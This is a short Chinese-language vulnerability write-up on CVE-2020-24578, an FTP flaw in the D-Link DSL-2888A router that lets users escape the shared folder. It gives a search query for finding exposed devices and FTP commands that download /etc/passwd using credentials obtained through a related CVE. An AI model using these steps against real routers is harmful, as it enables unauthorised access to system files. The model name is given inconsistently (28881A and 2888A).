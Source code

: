 # D-Link DSL-28881A FTP配置错误 CVE-2020-24578

## 漏洞描述

D-Link DSL-2888A路由器具有文件共享功能，该功能允许用户通过将外部驱动器插入路由器来与其他网络用户共享文件。然后通过FTP（文件传输协议）共享。但是，FTP服务允许网络用户转义共享文件夹以访问路由器文件系统并下载位于根文件夹中的其他文件。

## 漏洞影响

<a-checkbox checked>D-Link DSL-2888A</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="DSL-2888A"</a-checkbox></br>

## 漏洞复现

前提为使用 `D-Link DSL-28881A 信息泄露 CVE-2020-24577` 获取FTP凭证

以下提供了下载“ passwd”的示例：
在FTP客户端上使用以下命令以有效的凭据（从Finding-2获得）连接到FTP服务。
使用以下命令导航到根文件夹。

```plain
ftp xxx.xxx.xxx.xxx
ftp> cd etc 
ftp> get passwd
```



![img](../../../.vuepress/public/img/link-5.png)



若有收获，就点个赞吧